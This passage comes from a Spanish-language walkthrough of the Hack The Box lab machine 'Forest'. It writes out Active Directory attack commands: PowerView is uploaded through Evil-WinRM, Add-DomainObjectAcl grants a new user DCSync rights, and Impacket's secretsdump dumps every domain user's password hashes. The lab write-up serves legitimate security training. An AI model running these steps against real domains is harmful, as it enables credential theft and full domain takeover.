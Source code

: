 Al añadir al usuario al grupo _Remote Management Users_, evitamos el uso de _PSCredentials_, que normalmente se utilizan para ejecutar comandos con las credenciales de otro usuario, las cuales, personalmente, me generaban conflictos con `PowerView`.

A continuación, cerraremos la sesión actual de `Evil-WinRM` y nos conectaremos nuevamente con el usuario recién creado. Una vez conectados como el nuevo usuario, descargaremos en nuestro equipo el script [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1), que pertenece a `PowerSploit` (una colección de scripts en PowerShell). Igual que antes, lo subiremos mediante `Evil-WinRM` y posteriormente lo importaremos:

```powershell
upload PowerView.ps1
Import-Module .\PowerView.ps1
```

![28](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/28.png){:class="blog-image" onclick="expandImage(this)"}

Una vez importado, utilizaremos la función `Add-DomainObjectAcl` para otorgar permisos de `DCsync` a nuestro usuario recién creado:

```bash
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity nombreDeUsuario -Rights DCSync
```

![29](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/29.png){:class="blog-image" onclick="expandImage(this)"}

Ya con permisos de `DCsync` en nuestro usuario, podemos utilizar `secretsdump`, otro script de la suite `Impacket` que nos permitirá dumpear los hashes de todos los usuarios del dominio:

```bash
impacket-secretsdump htb.local/nombreDeUsuario:contraseña@10.10.10.161
```

![30](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/30.png){:class="blog-image" onclick="expandImage(this)"}
